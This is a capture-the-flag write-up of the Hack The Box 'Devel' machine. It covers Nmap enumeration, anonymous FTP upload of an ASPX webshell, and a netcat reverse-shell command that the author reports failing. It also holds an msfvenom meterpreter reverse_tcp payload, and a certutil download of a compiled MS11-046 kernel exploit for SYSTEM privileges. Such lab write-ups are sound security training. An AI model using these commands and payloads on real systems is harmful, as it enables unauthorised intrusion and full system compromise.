 ```yaml
---
description: Work In Progress...
---
```


# Devel

## Overview

## Enumeration

As always we start with an Nmap scan. This is the one I ran

```bash
 sudo nmap -sV -sC 10.129.203.118 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 16:45 EDT
Nmap scan report for 10.129.203.118
Host is up (0.034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

The scan reveals we have two services open: `Microsoft FTP` on `port 21` and `Microsoft IIS` web server on `port 80`.

### FTP

What's particularly interesting is that anonymous login is allowed on port 21 so let's explore that.

We'll make sure that anonymous login does work, which indeed it does.

![](<../../../../.gitbook/assets/image (11).png>)

However, there isn't anything useful for us here.

### IIS

We see what looks to be the default landing page for IIS

![](<../../../../.gitbook/assets/image (40) (1).png>)

Running a dirsearch on the website also did not prove to be useful.

### Curl

I ran a curl command with `-I` to get only the document info

```bash
curl -I http://10.129.203.118/
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Wed, 23 Mar 2022 21:06:06 GMT
```

Seeing that the server is running ASP.NET and I have access to FTP, I can probably upload a webshell

## Foothold

### Webshell

I decided to go with the webshell from SecLists

![](<../../../../.gitbook/assets/image (7).png>)

Now we'll upload it over ftp:

![](<../../../../.gitbook/assets/image (46).png>)

We can access our webshell by visiting `10.129.203.118/cmd.aspx`

![](<../../../../.gitbook/assets/image (25) (1).png>)

Here's what returns when entering `whoami`

![](<../../../../.gitbook/assets/image (50).png>)

### Reverse shell

I'll be getting a shell with `nc.exe`

First I use smbserver.py to send the executable to the web server and then execute a netcat command

![](<../../../../.gitbook/assets/image (26) (1).png>)

![](<../../../../.gitbook/assets/image (41).png>)

![](<../../../../.gitbook/assets/image (43) (1).png>)

I also start a nc listener on my kali machine to catch a shell

![](<../../../../.gitbook/assets/image (31).png>)

Entering the following command into the webshell:

```
\\10.10.14.13\nc.exe -e cmd.exe 10.10.14.13 443
```

And I get a shell!

{% hint style="warning" %}
I was supposed to, but it didn't work. I followed along other manual methods but no success
{% endhint %}

## With Metasploit

I'll create the payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=443 -f aspx > meterpreter_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2873 bytes
```

Put it on the FTP server

```
ftp> put meterpreter_rev_443.aspx
local: meterpreter_rev_443.aspx remote: meterpreter_rev_443.aspx
229 Entering Extended Passive Mode (|||49186|)
125 Data connection already open; Transfer starting.
100% |**************************************|  2910       34.68 MiB/s    --:-- ETA
226 Transfer complete.
2910 bytes sent in 00:00 (100.65 KiB/s)
```

Use the Metasploit module `exploit/multi/handler`

![](<../../../../.gitbook/assets/image (16).png>)

Visit the page&#x20;

```
http://10.129.203.118/meterpreter_rev_443.aspx
```

And catch a shell!

![](<../../../../.gitbook/assets/image (72).png>)

## Privilege Escalation

Running systeminfo in the shell shows us some good information

![](<../../../../.gitbook/assets/image (44).png>)

In particular, I'm interested in the OS Version, so I look up priv esc for this build and find a nice exploit to use.

{% embed url="https://www.exploit-db.com/exploits/40564" %}

Per the description:

> **Vulnerability description:**
>
> The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file.&#x20;
>
> The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol.&#x20;
>
> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.&#x20;
>
> An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.&#x20;
>
> An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges)

We'll compile the code as suggested by the exploit

![](<../../../../.gitbook/assets/image (52).png>)

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Since we don't have full access to any user, we'll create a temp directory inside the Public folder and use something like certutil to upload the exploit and use a python http server to aid in the transfer

```
certutil -urlcache -f http://10.10.14.13/MS11-046.exe MS11-046.exe
```

![](<../../../../.gitbook/assets/image (8).png>)

![](<../../../../.gitbook/assets/image (70).png>)

Now we will run the exploit which should give us NT Auth\System level privileges

![](<../../../../.gitbook/assets/image (45).png>)

With our exploit executing successfully, we'll grab both the user and root flags!

![](<../../../../.gitbook/assets/image (56).png>)

![](<../../../../.gitbook/assets/image (23) (1).png>)

